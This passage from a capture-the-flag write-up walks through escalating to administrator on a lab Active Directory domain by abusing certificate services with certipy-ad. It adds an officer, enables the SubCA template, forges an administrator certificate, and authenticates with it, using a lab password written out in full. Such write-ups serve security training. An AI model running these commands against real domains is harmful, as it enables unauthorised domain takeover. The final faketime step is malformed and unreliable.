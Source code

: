 ```bash
certipy-ad ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(886).png)

```bash
certipy-ad ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```

```bash
certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb
```

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(888).png)

```bash
certipy-ad ca -ca 'manager-DC01-CA' -issue-request 17 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(890).png)

```bash
certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target dc01.manager.htb -retrieve 17
```

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(891).png)

We now have our administrator.pfx and we can use this.

```bash
certipy-ad auth -pfx administrator.pfx -username 'administrator' -domain 'manager.htb' -dc-ip 10.129.139.52
```

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(892).png)

We need to sync our clock with the DC. We we can use rdate(need to install it) to get the time of the DC Server

```bash
sudo apt install -y rdate
sudo rdate -n dc01.manager.htb
```

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(893).png)

Then use faketime to sync the clock

```bash
sudo apt install -y rdate
sudo faketime -f '(date/time of dc)'/bin/date
```
